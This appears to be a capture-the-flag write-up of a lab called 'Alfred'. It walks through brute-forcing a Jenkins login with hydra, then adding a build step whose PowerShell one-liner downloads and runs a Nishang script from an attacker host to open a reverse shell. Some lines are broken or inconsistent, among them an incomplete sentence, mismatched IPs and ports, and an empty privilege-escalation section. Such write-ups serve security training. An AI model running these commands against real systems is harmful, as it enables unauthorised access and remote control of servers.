

# Alfred

## Tools

***[Nishang](https://github.com/samratashok/nishang)*** is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.  

## Initial Access

[Jenkins Documentation](https://www.jenkins.io/doc/book/installing/initial-settings/#networking-parameters) indicates the default port is 8080.  

Shellhacks provide a quick understanding of [Jenkins Default Credentials](https://www.shellhacks.com/jenkins-default-password-username/). Since this instance is already running and the default username ('admin') is already known, it makes sense to attempt a brute force the login.  

`:> hydra -s 8080 -l admin -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt 10.67.140.52 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&pSubmit=Sign+in:Invalid username or password' -f -o /tmp/jenkins_login.txt`  

Hydra identifies the .  

## Nishang

Clone nishang into the /tmp folder `:> git clone https://github.com/samratashok/nishang.git`  

  

Read through the scripts and identify Invoke-PoweShellTcp.ps1 is used for reverse and bind shells.  

Check the instructions to find the command will be something like: `:> Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444`

Set up a server in the Nishang folder enabling the transfer of this script to the Jenkins enviornment. 

Set up a listener to receive the incoming reverse shell.  

  

## Exploit Jenkins

Jenkins has an existing project, which in a genuine penTest would provide a level of stealth.  

  

Move into the project and click 'Configure'. Scroll down to find the Build steps, where a `whoami` is already entered.  

Add a powershell command to download and execute `Invoke-PowerShellTcp.ps1`. 

`:> powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.67.70.29 -Port 8000`  

Return to the project and click "Build Now" to initaite the pipeline and Receive the reverse shell.  

Since `whoami` tells us where to look, we can search through that user to find the target file.  

## Privilege Escalation

